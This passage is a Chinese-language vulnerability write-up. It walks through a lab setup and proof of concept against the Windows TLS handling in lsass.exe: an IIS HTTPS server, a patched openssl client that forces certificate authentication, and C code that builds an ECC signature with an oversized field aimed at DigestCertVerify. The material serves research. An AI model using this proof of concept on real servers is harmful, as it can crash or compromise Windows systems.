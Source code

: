 * * *

服务器环境的搭建
--------

* * *

通过IIS管理器构建服务器证书，采用自签名证书，添加网站绑定https，设置ssl为忽略客户端证书。

![enter image description here](http://static.wooyun.org/20141204/2014120419483092767.png)

![enter image description here](http://drops.javaweb.org/uploads/images/37923407f7d4935e29384024a79b5121315b6605.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/ea3fefc472060d524776788be5cb84351bc989b9.jpg)

通过https协议访问搭建好的网站。

![enter image description here](http://drops.javaweb.org/uploads/images/d86e5643ac438741fdc8c466e735ff29e75b2429.jpg)

客户端环境的搭建
--------

* * *

在采用openssl-1.0.1j，在kali上编译运行，生成EC cert和key，命令如下：

> openssl ecparam -out ec_key.pem -name prime256v1 -genkey openssl req -new -key ec_key.pem -x509 -nodes -days 365 -out cert.pem

为了能够让服务器进行客户端证书认证，修改openssl-1.0.1j/ssl/s3_clnt.c文件，每次都发送证书进行认证。修改函数int ssl3_connect(SSL *s)，在Server Hello Done处理后，将s->s3->tmp.cert_req 置为1。

![enter image description here](http://drops.javaweb.org/uploads/images/fdd9631b3680b50cc98f03b064e098a1b7021dc5.jpg)

编译修改后的代码，切换当前目录为openssl-1.0.1j/apps/，通过命令./openssl s_client -connect xxx.xxx.xxx.xxx:443 -cert cert.pem -key ec_key.pem -verify 5连接服务端，在服务器端的lsass.exe进程的NTSTATUS __thiscall CSsl3TlsServerContext::DigestCertVerify(int this, unsigned __int8 *a2, unsigned int a3)函数上设置断点，可以看到触发了断点。

![enter image description here](http://drops.javaweb.org/uploads/images/3895cd693f3207dbb79cdb95a75190df154b885e.jpg)

POC构造
-----

* * *

下面构造签名部分，即CryptDecodeObject解码的数据，为了能够得到可控的解码后的数据，调用CryptEncodeObject对我们想要的数据进行编码，这样只要编码成功，CryptDecodeObject就总是可以解码成功。

```
BYTE* GetDecodeObject()
{
CERT_ECC_SIGNATURE sig;
    char pData[0x1000];
    memset( pData , 0xcc , 0x1000 );
    sig.r.pbData = (BYTE*)pData;
    sig.r.cbData = 0x20;
    sig.s.cbData = 0x1000;
    sig.s.pbData = (BYTE*)pData;
    DWORD cbEncoded = 0;
    if ( CryptEncodeObject( X509_ASN_ENCODING , X509_ECC_SIGNATURE , &sig , NULL , &cbEncoded ) )
    {
        unsigned char *pEnc = new unsigned char[cbEncoded];
        CryptEncodeObject( X509_ASN_ENCODING , X509_ECC_SIGNATURE , &sig , (BYTE*)pEnc , &cbEncoded );
        return pEnc;
    }
    return NULL;
}

```